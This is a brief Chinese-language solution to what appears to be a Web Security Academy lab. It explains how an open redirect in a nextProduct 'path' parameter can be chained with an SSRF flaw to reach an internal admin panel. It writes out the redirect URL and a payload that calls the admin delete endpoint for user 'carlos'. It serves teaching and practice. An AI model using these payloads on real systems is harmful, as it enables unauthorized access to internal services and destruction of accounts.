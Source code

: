 ### 答案

功能点  nextProduct 里有重定向的功能

```http
https://0a98001004535eea80815dde00600013.web-security-academy.net/product/nextProduct?currentProductId=1&path=/product?productId=2
```

当我们把 path 的参数 改为 `http://192.168.0.12:8080/admin` 时，则会有重定向的功能

<img src=".\图片\Snipaste_2023-07-31_17-42-50.png" alt="Snipaste_2023-07-31_17-42-50" style="zoom:80%;" />

再借助之前的 ssrf 漏洞点，与重定向配合，即可触发删除链接

```
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

<img src=".\图片\Snipaste_2023-07-31_17-45-19.png" alt="Snipaste_2023-07-31_17-45-19" style="zoom:80%;" />
